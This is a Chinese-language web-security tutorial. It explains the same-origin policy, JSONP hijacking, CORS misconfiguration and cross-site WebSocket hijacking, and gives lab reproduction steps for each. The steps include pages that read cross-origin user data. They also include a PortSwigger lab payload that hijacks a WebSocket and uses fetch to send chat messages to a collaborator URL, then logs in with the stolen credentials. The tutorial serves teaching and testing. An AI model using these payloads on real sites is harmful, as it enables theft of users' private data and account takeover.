

# 同源策略及相关漏洞

## 一 同源策略

**同源策略**是指在Web浏览器中，允许某个网页脚本访问另一个网页的数据，但前提是这两个网页必须有相同的URI、主机名和端口号，一旦两个网站满足上述条件，这两个网站就被认定为具有相同来源。此策略可防止某个网页上的恶意脚本通过该页面的文档对象模型访问另一网页上的敏感数据。

同源策略对Web应用程序具有特殊意义，因为Web应用程序广泛依赖于HTTP cookie来维持用户会话，所以必须将不相关网站严格分隔，以防止丢失数据泄露。

值得注意的是同源策略仅适用于脚本，这意味着某网站可以通过相应的HTML标签访问不同来源网站上的图像、CSS和动态加载脚本等资源。而跨站请求伪造就是利用同源策略不适用于HTML标签的缺陷。

示例:

| URL                                               | 结果 | 原因                               |
| :------------------------------------------------ | :--- | :--------------------------------- |
| `http://store.company.com/dir2/other.html`        | 同源 | 只有路径不同                       |
| `http://store.company.com/dir/inner/another.html` | 同源 | 只有路径不同                       |
| `https://store.company.com/secure.html`           | 失败 | 协议不同                           |
| `http://store.company.com:81/dir/etc.html`        | 失败 | 端口不同 ( `http://` 默认端口是80) |
| `http://news.company.com/dir/other.html`          | 失败 | 主机不同                           |


## 二 jsonp劫持

### 2.1 漏洞原理

**JSONP** 就是为了跨域**获取资源**而产生的一种**非官方**的技术手段(官方的有 CORS 和 postMessage),它利用的是 script 标签的 src 属性不受同源策略影响的特性。

如果网站B对网站A的JSONP请求没有进行安全检查直接返回数据，则网站B便存在JSONP 漏洞，网站A利用JSONP漏洞能够获取用户在网站B上的数据。

**漏洞利用过程示意图**



1）用户在网站B 注册并保持登录状态，网站B 包含了用户的id，name，email等信息。并且网站B存在一个jsonp接口，用户在访问

网站B的时候，这个jsonp接口会返回用户的个人信息；

2）用户通过同一个浏览器，向网站A发送URL； 

3）网站A向用户返回响应页面，响应页面中存在恶意的jsonp回调函数和向网站B请求的script标签，示例代码如下：

```
<script type="text/javascript">
function Callback(result)
{
 alert(result.name);
}
</script>
<script type="text/javascript"
src="http://B.com/user?jsonp=Callback"></script>
```

4）用户收到响应，解析恶意代码，将回调函数作为参数向网站B发出请求；

5）网站B接收到请求后，解析请求的URL，以 JSON 格式生成请求需要的数据，将封装的包含用户信息的JSON数据作为回调函数的参

数返回给浏览器，网站B返回的数据实例如下：

```
Callback({"id":1,"name":"test","email":"test@test.com"})
```

 6）网站B数据返回后，浏览器则自动执行Callback函数将JSON数据回传到网站A的服务器，这样网站A利用网站B的JSONP漏洞便获

取到了用户在网站B注册的信息。


### 2.2 复现过程

测试代码如下：(jsonp.php)

```
<?php
header('Content-type: application/json');
header('Access-Control-Allow-Origin:*');
header('Access-Control-Allow-Methods:GET');
header('Access-Control-Max-Age:60');
header('Access-Control-Allow-Headers:x-requested with,content-type');
header('Content-Type:application/json;charset=utf-8');
$jsoncallback = htmlspecialchars($_REQUEST ['jsoncallback']);
$arr = array('a' => 1, 'b' => 2, 'c' => 3, 'd' => 4,'e' => 5);
echo json_encode($arr);
?>
```

当我们正常访问此页面的内容时，可以看到如下的页面内容：


随后可以在本地的kali中启用httpserver：python3 -m http.server

同步在目录中编辑1.html，内容如下：

```
<!DOCTYPE html>
<html>
<head>
 <title>jsonp</title>
</head>
<body>
<script type="text/javascript"
src="https://code.jquery.com/jquery-3.1.1.min.js">
</script>
<script type="text/javascript">
 $.getJSON("http://172.16.4.192/jsonp.php?jsoncallback=1", function(jsonp){
 alert(jsonp.b);
 });
</script>
</body>
</html>
```

通过访问测试页面获取到敏感参数


### 2.3 总结：

前提需要具备跨域且请求无token。

在访问网站的时候检测浏览器发出的所有请求。

发现有callback等关键字段，则将其记录下来，并继续访问，检查

请求返回的数据。返回数据中存在uid、username等关键字，那么就判定其为疑似的

jsonp劫持漏洞，并向服务器发送疑似存在jsonp劫持漏洞的链接地址。

需要钓鱼，低危，为此用在蜜罐的场景更合适。


## 三 cors跨域资源共享

### 3.1 基础概念

跨域资源共享(CORS)是一种放宽同源策略的机制，它允许浏览器向跨源服务器，发出 XMLHttpRequest 请求，从而克服了 AJAX 只能同源使用的限制，以使不同的网站可以跨域获取数据。

CORS 定义了两种跨域请求：简单请求 和 非简单请求。

**简单跨域请求**:	使用设定的请求方式请求数据，
**非简单跨域请求**:	在使用设定的请求方式请求数据之前，先发送一个 OPTIONS 预检请求，验证请求源是否为服务端允许源。只有"预检"通过后才会再发送一次请求用于数据传输。

当发送一个跨域请求的时候，浏览器会首先检查这个请求，如果它是简单跨域请求，浏览器就会立刻发送这个请求。如果它是非简单跨域请求，这时候浏览器不会马上发送这个请求，而是有一个跟服务器预检验证的过程。


**CORS 运行机制**：
在浏览器进行请求时，自动在请求头中添加 Origin 字段，

服务端通过验证 Origin 字段来判断请求是否被允许，从而实现浏览器进行跨源访问
**CORS 漏洞**：
浏览器自动在 Http 请求头加上 Origin 字段，服务器通过判断 Origin 字段的值来判断 请求是否可以读取本站资源。

**字段解释**：

**Access-Control-Allow-Origin**：该字段是必须的。它的值要么是请求时 Origin 字段的值，要么是一
个*，表示接受任意域名的请求。
**Access-Control-Allow-Credentials**：该字段可选。它的值是一个布尔值，表示是否允许发送 Cookie。
默认情况下，Cookie 不包括在 CORS 请求之中。当设置为 true 时，即表示服务器明确许可，Cookie 可以包
含在请求中，一起发给服务器。这个值也只能设为 true，如果服务器不要浏览器发送 Cookie，删除该字段
即可。
**Access-Control-Expose-Headers** ： 该 字 段 可 选 。 CORS 请 求 时 ， XMLHttpRequest 对 象 的
getResponseHeader()方法只能拿到 6 个基本字段：Cache-Control、Content-Language、Content-Type、
Expires、Last-Modified、Pragma。如果想拿到其他字段，就必须在 Access-Control-Expose-Headers 里
面指定。


### 3.2 复现过程

服务器端代码：

```
<?php
header("Access-Control-Allow-Origin:*");
echo "username: admin; password:123456";
?>
```

攻击主机代码：

```
<!DOCTYPE>
<html>
<h1>Hello I evil page</h1>
<script type="text/javascript">
function loadXMLDoc()
{
 var xhr = new XMLHttpRequest();
  xhr.onreadystatechange=function()
 {
 if(xhr.readyState == 4 && xhr.status == 200) //if receive xhr response
 {
 var datas=xhr.responseText
;
 alert(datas);
 }
 }
 //request vuln page
 
xhr.open("GET","http://172.16.4.192/2.php","true")
 xhr.send();
}
loadXMLDoc();
</script>
</html>
```

html代码的意思是通过XMLHttpRequest访问URL地址，然后将获取到的内容alert出来。


## 四 websocket跨域劫持

## 4.1 了解WebSocket

WebSocket协议是OSI模型应用层的一种协议，它能够在客户端（浏览器）和web服务器之间以全双工（一种信息可以在两个方向同时循环的通信通道）进行通信。简而言之，它允许创建实时web应用程序，比如即时消息聊天。

它克服了半双工通信所造成的延迟，即一次只在一个方向上进行通信，这是迄今为止用于此类应用程序的解决方案的特点。实际上，使用HTTP协议，客户机启动请求并等待响应，这称为事务。每个请求/响应启动一个不同的事务，而WebSocket启动一个具有长生命周期的事务（多个请求/响应）。此外，即使事先没有发出请求，服务器也可以发送数据。

下图说明了WebSocket如何工作（从连接到通信）：


客户端通知服务器它要启动WebSocket连接：

```
GET /chat HTTP/1.1
Host: www.websocket.com:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: http://www.websocket.com
Sec-WebSocket-Key: F3K8tSSU8iTVlhenxKqtbw==
DNT: 1
Connection: keep-alive, Upgrade
Cookie: X-Authorization=8jvbphlmk3DG8iXL0F4vraWBA
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

如果服务器接受连接，它将按以下方式回答：

```
HTTP/1.1 101 Switching Protocols
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Accept: ILZpbBQBard/ixWRPPI6UOlh8hY=
```


## 4.2 **可能的攻击和安全风险**

虽然WebSockets对于创建全双工通信信道很有用（在现代应用程序中，服务器可能需要在客户端不发出特殊请求的情况下向客户端发送数据，例如在即时消息传递的情况下），但是这种技术没有提供任何特定的安全优势。因此，我们发现了HTTP协议的常见漏洞，有时还具有一些特殊性。以下是针对WebSocket的潜在漏洞和攻击的非详尽列表：

**身份验证控制**

WebSocket协议没有用于身份验证的本机机制，因此在开发过程中，必须通过cookies、JWT或HTTP（Basic/Digest）身份验证来实现一个干净的解决方案。在渗透测试期间，需要系统地检查是否确实存在身份验证系统，以及是否正确地实现了该系统（无需身份验证即可访问功能）。

**授权和授权控制**

与身份验证一样，WebSocket协议中没有管理授权的系统（用户只能访问他们应该访问的数据和服务）。这使攻击者能够垂直提升其权限，或以与攻击者相同的权限级别访问用户的数据。

在测试期间，将对访问控制进行详细测试，以尝试获得权限提升。

**与用户风险相关的输入**

用户通过WebSockets输入的数据是攻击的主要原因 – XSS、SQL注入、代码注入等。在使用之前，必须根据上下文使用最合适的方法对所有输入进行清理。

**嗅探的风险**

通过WebSocket协议的数据传输是以明文方式完成的，就像HTTP一样。因此，可以通过中间人攻击恢复这些数据。为了避免信息泄漏，必须实现WebSocket安全（wss）协议。

请记住，正如HTTPS一样，wss并不意味着web应用程序是安全的，它只是通过TLS加密传输数据。

**跨站点Websocket劫持（CSWH）**

跨站点WebSocket劫持是一种类似于CSRF的攻击跨站点请求伪造. 当服务器仅依赖会话身份验证数据（cookies）来执行经过身份验证的操作时，这两种攻击都可能发生。

 对于CSRF，攻击者将请求隐藏在链接或其他元素中，这些元素将在其（经过身份验证的）受害者的屏幕上可见。攻击者会提示受害者单击它来执行隐藏请求所请求的操作。因此，攻击者可以使受害者在不知情的情况下做一些有害的事情。缺点是攻击者无法看到服务器对请求的响应（由于源站策略），这一缺点在WebSockets中已不复存在，因为它不实现源站策略。这使攻击者能够使用受害者的凭据创建全双工连接。

实际上，当WebSocket握手易受CSRF攻击时，跨站点WebSocket劫持攻击是可能的。实际上，双方（客户机/服务器）之间的通信通道是根据打开请求的来源创建的。因此，如果协议更改请求仅基于cookies，则攻击者可以诱捕受害者，在攻击者的服务器上使用其会话发起请求

一旦被困住，攻击者可以在受害者不知情的情况下通过WebSockets与服务器通信。与经典的CSRF一样，攻击者因此可以代替用户执行操作，但也可以读取通过WebSockets发送的服务器消息

为了解决此漏洞，有必要为每个会话添加一个唯一的令牌，该令牌不能被猜测为握手请求的参数.


## 4.3 复现漏洞

https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

1. Click "Live chat" and send a chat message.                    

2. Reload the page.                    

3. In Burp Proxy, in the WebSockets history tab,  observe that the "READY" command retrieves past chat messages from the  server.                    

4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.                    

5. Right-click on the handshake request and select "Copy URL".                    

6. In the browser, go to the exploit server and paste the following template into the "Body" section:  

   ```
   <script>
       var ws = new WebSocket('wss://your-websocket-url');
       ws.onopen = function() {
           ws.send("READY");
       };
       ws.onmessage = function(event) {
           fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
       };
   </script>    
   ```

7. Replace `your-websocket-url` with the URL from the WebSocket handshake (`your-lab-id.web-security-academy.net/chat`). Make sure you change the protocol from `https://` to `wss://`. Replace `your-collaborator-url` with a payload generated by Burp Collaborator Client.                    

8. Click "View exploit".                    

9. Poll for interactions using Burp Collaborator  client. Verify that the attack has successfully retrieved your chat  history and exfiltrated it via Burp Collaborator. For every message in  the chat, Burp Collaborator has received an HTTP request. The request  body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.                    

10. Go back to the exploit server and deliver the exploit to the victim.                    

11. Poll for interactions using Burp Collaborator  client again. Observe that you've received more HTTP interactions  containing the victim's chat history. Examine the messages and notice  that one of them contains the victim's username and password.                    

12. Use the exfiltrated credentials to log in to the victim user's account.     


